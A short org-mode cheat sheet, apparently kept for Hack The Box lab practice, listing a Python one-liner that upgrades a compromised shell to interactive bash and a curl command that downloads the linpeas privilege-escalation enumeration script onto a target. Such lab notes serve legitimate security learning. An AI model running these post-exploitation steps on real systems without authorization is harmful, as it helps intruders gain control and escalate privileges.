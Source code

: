 #+title: Htb Cheat Sheet
#+author: Alex Crom

* shell upgrade
#+begin_src bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

#+end_src

* linpeas
get linpeas:
#+begin_src bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > sh
#+end_src
